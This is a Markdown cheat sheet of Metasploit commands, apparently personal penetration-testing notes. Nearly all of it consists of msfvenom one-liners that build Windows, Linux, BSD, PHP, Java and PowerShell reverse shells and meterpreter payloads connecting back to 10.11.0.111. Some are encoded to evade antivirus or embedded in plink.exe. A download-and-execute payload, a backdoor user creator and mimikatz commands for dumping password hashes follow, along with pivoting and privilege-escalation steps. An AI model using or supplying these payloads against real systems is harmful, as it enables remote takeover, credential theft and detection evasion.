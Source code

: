 ## msfvenom
-----

#### var name "payload" and type python, windows non-staged reverse shell

```msfvenom -p windows/shell_reverse_tcp -f py --var-name payload LHOST=10.11.0.111 LPORT=7171```

-----


#### windows non-staged reverse shell, x86, C, exclude x00,x0a,x0d, encode shikata

```msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.111 LPORT=4448 -f c -a x86 --platform windows -b "\x00\x0a\x0d" -e x86/shikata_ga_nai```

-----


#### windows staged reverse shell, output to shell.exe

```msfvenom -p windows/shell/reverse_tcp LHOST=10.11.0.111 LPORT=4447 -f exe -o shell.exe```

-----


#### linux x86, python, staged meterpreter

```msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.11.0.111 LPORT=6969 -f python```

-----


#### windows non-staged meterpreter reverse shell, VBScript

```msfvenom -p windows/meterpreter_reverse_tcp LHOST=192.168.0.103 LPORT=4444 EXITFUNC=thread -f vbs --arch x86 --platform win```

-----


#### windows aspx non-staged reverse shell

```msfvenom -f aspx -p windows/shell_reverse_tcp LHOST=10.11.0.111 LPORT=4450 -e x86/shikata_ga_nai -o shell.aspx```

-----


#### PHP meterpreter staged reverse shell

```msfvenom -p php/meterpreter/reverse_tcp LHOST=10.11.0.111 LPORT=4443 -f raw -o shell.php```

-----


#### Java WAR non-staged reverse shell

```msfvenom -p java/shell_reverse_tcp LHOST=10.11.0.111 LPORT=4443 -f war -o shell.war```

-----


#### linux x86 bind shell, shikata encoded, excluded values

```msfvenom -p linux/x86/shell_bind_tcp LPORT=4443 -f c -b “\x00\x0a\x0d\x20” -e x86/shikata_ga_nai```

-----


#### FreeBSD ELF reverse shell, non-staged

```msfvenom -p bsd/x64/shell_reverse_tcp LHOST=10.11.0.111 LPORT=4443 -f elf -o shell.elf```

-----


#### Linux non-staged reverse shell (shellcode)

```msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.11.0.111 LPORT=4443 -e x86/shikata_ga_nai -f c```

-----


#### Windows Python non-staged reverse shell

```msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.111 LPORT=4443 EXITFUNC=thread -f python -o shell.py```

-----


#### Windows Javascript non-staged reverse shell with NOPs

```msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.111 LPORT=4443 -f js_le -e generic/none -n 18```

-----


#### Windows Powershell non-staged reverse shell

```msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.111 LPORT=4443 -e x86/shikata_ga_nai -i 9 -f psh -o shell.ps1```

-----


#### Windows x64 non-staged reverse shell

```msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.11.0.111 LPORT=4443 -f exe -o shell.exe```

-----


#### Windows non-staged reverse shell embedded into plink

```msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.111 LPORT=4443 -f exe -e x86/shikata_ga_nai -i 9 -x /usr/share/windows-binaries/plink.exe -o shell_reverse_msf_encoded_embedded.exe```

-----


#### Download and execute (windows)

```msfvenom -p windows/download_exec URL=http://10.11.0.111/malware.exe -f py --var-name shellcode```

-----


#### Create user (windows)

```msfvenom -p windows/adduser USER=hacker PASS=Hacker123$ -f exe > adduser.exe```

-----


## Mimikatz
-----

#### Password and Hash gathering (windows)

*In meterpreter session*
```
load mimikatz
msv
mimikatz_command -f samdump::hashes
mimikatz_command -f sekurlsa::searchPasswords
```

-----


## Other
-----

#### SOCKS4 proxy through target

```
run autoroute -s 10.1.1.0/24
run autoroute -p
use auxiliary/scanner/portscan/tcp 
auxiliary/server/socks4a
```

-----


#### Attempt to connect back on all ports (when unsure of egress rules)

```payload/reverse_tcp_allports```

-----


#### Set global parameters

```setg```

-----


#### add nmap scan to database

```db_nmap 10.11.1.0/24 --top-ports 20```

-----


#### post exploitation / privesc

```post/multi/recon/local_exploit_suggester```

-----




